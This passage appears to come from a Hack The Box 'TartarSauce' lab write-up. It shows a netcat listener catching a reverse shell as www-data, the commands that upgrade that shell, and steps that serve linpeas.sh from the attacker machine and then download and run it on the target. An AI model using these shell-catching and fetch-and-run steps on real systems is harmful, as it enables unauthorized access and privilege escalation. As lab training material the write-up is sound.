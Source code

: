 ```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/TartarSauce]
└─$ nc -lvp 1234
listening on [any] 1234 ...
10.10.10.88: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.88] 41296
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 05:47:32 up  6:50,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$ ^Z
zsh: suspended  nc -lvp 1234
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/HackTheBox/TartarSauce]
└─$ echo $TERM
xterm-256color
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/HackTheBox/TartarSauce]
└─$ stty -a
speed 38400 baud; rows 47; columns 176; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/HackTheBox/TartarSauce]
└─$ stty raw -echo && fg
[1]  + continued  nc -lvp 1234
                              reset
reset: unknown terminal type unknown
Terminal type? xterm-256color
                                
```

### linpeas.sh

```bash
# download LinEnum
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
# lhost
python -m SimpleHTTPServer 80
# rhost
cd /tmp  
wget http://10.10.14.4/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

